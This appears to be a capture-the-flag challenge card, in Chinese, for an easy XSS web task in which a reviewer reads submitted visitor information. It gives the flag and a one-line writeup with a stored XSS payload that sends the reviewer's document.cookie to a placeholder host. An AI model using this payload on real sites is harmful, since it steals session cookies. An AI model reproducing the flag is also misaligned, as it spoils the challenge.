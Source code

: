 * **题目名称：** kk园区审核员

* **题目类型：** WEB

* **题目难度：** 容易 

* **出题人：**pANz0e

* **考点：**  

1. xss


* **描述：**  善良的出题人组织了一次kk园区的参观活动，现在收集有意向前往的人员信息，提交后工作人员会第一时间审核哦，审核通过还能得到审核的美味曲奇奖励！~

* **flag：**xsctf{Y0u_succ3s5ful1y_x55_m3}

* **Writeup：** 随便找个xss地方`<script>new Image().src="http://ip:port/"+document.cookie</script>`，点击提交即可
